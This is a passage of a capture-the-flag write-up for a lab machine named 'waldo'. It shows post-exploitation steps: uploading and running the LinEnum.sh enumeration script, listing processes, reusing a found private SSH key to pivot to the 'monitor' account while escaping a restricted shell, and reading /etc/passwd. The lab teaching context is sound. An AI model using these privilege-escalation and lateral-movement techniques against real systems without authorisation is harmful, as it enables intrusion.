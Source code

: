 Firing off our LinEnum.sh script..

```
$ scp -i id_rsa.nobody LinEnum.sh  nobody@10.10.10.87:/tmp/LinEnum.sh
```

```
$ chmod +x /tmp/LinEnum.sh
$ /tmp/LinEnum.sh -t -r LinEnum-nobody.out
```

.. scanned through the report, but nothing immediately jumped out as being
interesting.

Poking around the system, we find a potentially interesting file at the root..

```
waldo:/$ ls -l /.dockerenv
-rwxr-xr-x    1 root     root             0 May  3 20:50 /.dockerenv
```

Examining the processes running on the system, two things jump out: 1. the
`ssh` of `monitor@localhost` and `supervisord`.

```
waldo:/$ ps -ef
PID   USER     TIME   COMMAND
    1 root       0:05 {supervisord} /usr/bin/python2 /usr/bin/supervisord -c /etc
    7 root       0:00 nginx: master process nginx -g daemon off;
    8 root       0:00 /usr/sbin/sshd -D -e
    9 root       0:00 {php-fpm7} php-fpm: master process (/etc/php7/php-fpm.conf)
   10 nginx      0:05 nginx: worker process
   23 root       0:00 sshd: nobody [priv]
   25 nobody     0:00 sshd: nobody@pts/1
   26 nobody     0:00 -sh
   28 nobody     0:00 ssh -i /home/nobody/.ssh/.monitor monitor@localhost -t bash
   31 root       0:00 sshd: nobody [priv]
   33 nobody     0:00 sshd: nobody@pts/2
   34 nobody     0:00 -sh
   41 nobody     0:00 ssh -i mono.txt monitor@127.0.1.1
   93 root       0:00 sshd: nobody [priv]
   95 nobody     0:00 sshd: nobody@pts/3
   96 nobody     0:00 -sh
  125 root       0:00 sshd: nobody [priv]
  128 nobody     0:00 sshd: nobody@pts/4
  129 nobody     0:00 -sh
  144 nobody     0:00 ssh -i .monitor monitor@10.10.10.87
  145 nobody     0:00 {php-fpm7} php-fpm: pool www
  146 nobody     0:00 {php-fpm7} php-fpm: pool www
  147 nobody     0:00 ps -ef
```

Let's try `ssh` into this `localhost` and see what we find?

```
waldo:/$ /usr/bin/whoami
nobody
waldo:/$ /usr/bin/id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
waldo:/$ /usr/bin/ssh -i /home/nobody/.ssh/.monitor monitor@localhost -t bash -nor
c
bash-4.4$ /usr/bin/whoami
monitor
bash-4.4$ /usr/bin/id
uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)
bash-4.4$ ls /home
app-dev  monitor  steve
bash-4.4$ tail /etc/passwd
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
```
